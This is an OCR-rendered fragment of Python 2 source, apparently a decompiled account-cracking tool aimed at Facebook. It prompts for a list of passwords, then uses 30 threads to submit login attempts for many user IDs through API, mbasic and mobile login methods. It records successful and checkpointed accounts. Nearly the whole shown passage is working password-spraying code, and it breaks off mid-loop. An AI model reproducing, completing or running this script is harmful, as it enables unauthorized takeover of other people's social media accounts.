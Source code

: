         print '[\x1b[1;32m 1 \x1b[1;37m] TOOL PASSWORD'
        print '\x1b[1;97m-------------------------------------------------'
        ___mking__pass___ = raw_input('[%s\x1b[1;92m?%s] CHOOSE: ' % (O, N))
        if ___mking__pass___ in ('2', '02'):
            print '%s[%s\x1b[1;91m!%s] use , (comma) for separator example: password123,password12345,etc. each word is at least 6 characters or more' % (N, M, N)
            print '\x1b[1;97m-------------------------------------------------'
            while True:
                pwek = raw_input('[%s\x1b[1;92m?%s] Enter password : \x1b[1;92m' % (O, N))
                print '\x1b[1;97m-------------------------------------------------'
                print ' [*] Crack with password -> [ %s%s%s ]' % (M, pwek, N)
                print '\x1b[1;97m-------------------------------------------------'
                if pwek == '':
                    print '%s[%s\x1b[1;91m\xc3\x97%s] dont empty the password ' % (N, M, N)
                elif len(pwek) <= 5:
                    print '%s[%s\x1b[1;91m\xc3\x97%s] Password minimum 6 characters' % (N, M, N)
                else:

                    def __yan__(ysc=None):
                        global cp
                        global ok
                        cin = raw_input('[\x1b[1;92m*\x1b[1;97m] method : \x1b[1;92m')
                        print '\x1b[1;97m-------------------------------------------------'
                        if cin == '':
                            print '%s[%s\x1b[1;91m\xc3\x97%s] dont be empty bro' % (N, M, N)
                            self.__yan__()
                        elif cin == '1':
                            with mking__pass(max_workers=30) as (__mking__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('|')[0]
                                        __mking__.submit(self.__api__, kimochi, ysc)
                                    except:
                                        pass

                            os.remove(self.apk)
                            seved_ok_cp(ok, cp)
                        elif cin == '2':
                            with mking__pass(max_workers=30) as (__mking__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('|')[0]
                                        __mking__.submit(self.__mbasic__, kimochi, ysc)
                                    except:
                                        pass

                            os.remove(self.apk)
                            seved_ok_cp(ok, cp)
                        elif cin == '3':
                            with mking__pass(max_workers=30) as (__mking__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('|')[0]
                                        __mking__.submit(self.__mfb, __, kimochi, ysc)
                                    except:
                                        pass
